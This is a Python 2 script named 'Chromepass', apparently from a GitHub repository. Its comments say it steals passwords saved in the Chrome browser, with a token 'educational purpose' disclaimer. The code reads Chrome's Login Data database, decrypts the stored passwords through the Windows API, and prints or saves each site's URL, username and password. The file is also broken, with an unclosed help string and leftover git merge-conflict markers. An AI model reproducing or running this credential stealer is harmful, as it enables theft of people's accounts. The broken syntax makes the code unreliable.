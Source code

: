 # Chromepass
//Steal password stored in chrome browser
//Use pendrive properly 
//Only for educational purpose
//Do not use for illegal purpose
//Do  share
import sqlite3, win32crypt, os, sys

def decrypt(path, save_path):
	if not os.path.isfile(path):
		print 'The file doesn\'t exist!'
		return
	
	connChrome = sqlite3.connect(path)
	cursor = connChrome.cursor()
	try:
		cursor.execute('SELECT action_url, username_value, password_value FROM logins')
	except:
		print 'Impossible to read ' + path
		return

	print '\t\t\t*** Passwords ***'
	
	for query in cursor.fetchall():
		passwd = win32crypt.CryptUnprotectData(query[2], None, None, None, 0)[1]
		if passwd:
			print 'URL: ' + query[0]
			print 'User: ' + query[1]
			print 'Password: ' + passwd
			print '--------------------'
	
			if save_path != '':
				passwordsFile = open(save_path, 'a')
				passwordsFile.writelines('URL: ' + query[0] + '\nUser: ' + query[1] + '\nPassword: ' + passwd + '\n--------------------\n')
				passwordsFile.close()

def show_help():
    print '''  Usage:
    python ChromePass.py                                   # Run with the default location of the Login Data file.
    python ChromePass.py "path_to_file"                    # Run with a path to the Login Data file.
    python ChromePass.py "path_to_file" -S "path_to_save"  # Run with a path to the Login Data file and save.
    python ChromePass.py -S "path_to_save"                 # Save the content of the default Login Data file.

<<<<<<< HEAD
 
=======

>>>>>>> 828286503238c3fd4a8a3b1bbae5ce8570f7f331
if __name__ == '__main__':
    arg = sys.argv
    args = len(arg)
    login_data = os.getenv('LOCALAPPDATA') + '\Google\Chrome\User Data\Default\Login Data'

    if args == 1:
        decrypt(login_data, '')
    elif args == 2:
        decrypt(arg[1], '')
    elif args == 3:
        if arg[1].upper() == '-S':
            decrypt(login_data, arg[2])
        else:
            show_help()
    elif args == 4:
        if arg[2].upper() == '-S':
            decrypt(arg[1], arg[3])
        else:
            show_help()
    else:
        show_help()
